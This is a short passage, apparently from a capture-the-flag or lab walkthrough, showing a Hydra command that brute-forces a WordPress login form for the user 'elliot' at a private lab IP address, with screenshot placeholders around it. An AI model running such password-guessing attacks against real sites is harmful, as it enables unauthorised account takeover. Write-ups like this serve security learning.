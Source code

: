 <img src="images/psw.png" style="align: right" alt="nmap" width="600"/>

I ran the following command:
```bash
hydra -l elliot -P fs-list 192.168.227.7 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

<img src="images/hydra-2.png" style="align: right" alt="nmap" width="600"/>